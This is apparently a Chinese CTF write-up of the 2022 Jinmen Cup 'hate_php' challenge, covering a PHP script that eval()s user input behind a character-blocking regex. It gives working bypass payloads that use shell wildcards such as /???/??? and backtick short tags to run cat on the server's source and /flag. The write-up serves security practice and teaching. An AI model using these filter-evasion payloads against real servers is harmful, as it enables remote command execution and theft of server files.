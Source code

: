 ```yaml
---
title: 第五届世界智能大会[津门杯]
date: 2022-06-01 22:20:56
tags: 
       - 赛后复盘
       - CTF
categories: 
       - 赛后复盘
---
```


第五届世界智能大会[津门杯]，随便找点以往的比赛题目做一下，提高一下自己！



# hate_php

```
<?php
error_reporting(0);
if(!isset($_GET['code'])){
    highlight_file(__FILE__);
}else{
    $code = $_GET['code'];
    if(preg_match("/[A-Za-z0-9_$@]+/",$code)){
        die('fighting!'); 
    }
    eval($code);
}
```

代码审计，首先知道的是过滤了字母大小写和数字，还有三个字符

_$@，对输入code进行了正则表达式的匹配。

这道题关键就是绕过正则匹配，来执行后面的eval函数

> - 解题思路
> - 利用通配符调用Linux系统命令来查看flag
> - 在Linux系统中可以使用 ? * 等字符来正则匹配字母
> - 星号(*)可以用来代替0个及以上任意字符
> - 问号(?)可以用来代替1个任意字符，比如 /???/??? => /bin/cat

首先，构造payload:

```
?><?=`/???/???%20/???/???/????/*`?>
php使用短链接含义如下：
<?php echo `/bin/cat /var/www/html/index.php`?>
```

可以看到源码，直接读取flag文件试。

```
?><?=`/???/??? /????`?>
php使用短链接含义如下：
<?php echo `/bin/cat /flag`?>
```
